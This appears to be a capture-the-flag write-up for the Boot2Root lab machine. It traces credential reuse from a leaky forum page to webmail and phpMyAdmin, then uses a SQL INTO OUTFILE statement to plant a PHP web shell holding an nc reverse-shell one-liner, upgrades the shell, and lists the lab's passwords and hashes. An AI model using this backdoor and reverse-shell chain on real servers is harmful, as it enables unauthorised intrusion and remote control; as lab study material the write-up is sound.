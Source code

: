 # Port 443 (HTTPS)

- `https://<IP>/forum/index.php?id=6` leak credentials to access forum as `lmezard`

- User `lmezard` use same password for `webmail` and `forum`

- User `lmezard` mail box leak credentials to access `phpmyadmin` as `root`

- Adding reverse shell backdoor via `phpmyadmin`:

```sql
SELECT '<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ip_addr> 4242 >/tmp/f"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Once connected, we can upgrade our shell into a full TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#[CTRL+Z]
```

```bash
stty raw -echo
fg
#[ENTER]
#[ENTER]
```

Now we have a full shell as `www-data`

## Credentials found

### `https://$ip/forum`

| Login | Password |
|-|-|
| `lmezard` | [Plain] `!q\]Ej?*5K5cy*AJ` |
| `admin` | [Hex ?] `ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0516d551c28` |
| `qudevide` | [Hex ?] `a12e059d6f4c21c6c5586283c8ecb2b65618ed0a0dc1b302a2` |
| `thor` | [Hex ?] `d30668b779542d60c4cde29e7170148198b1623f4453866797` |
| `wandre` | [Hex ?] `f8562b53084d60efa4208fa50d1ef753ef18e089d2dd56c4ed` |
| `zaz` | [Hex ?] `f10b3271bf523f12ebd58ef8581c851991bf0d4b4c4bf49d7c` |

### `https://$ip/webmail`

| Login | Password |
|-|-|
| `laurie@borntosec.net` | [Plain] `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/phpmyadmin`

| Login | Password |
|-|-|
| `root` | [Plain] `Fg-'kKXBj87E:aJ$` |
| `phpmyadmin` | [Plain] `Fg-'kKXBj87E:aJ$` |
| `debian-sys-maint` | [SHA-1] `52B24D4192EDDFB439C67E1F92421C4D2D4F5598` |

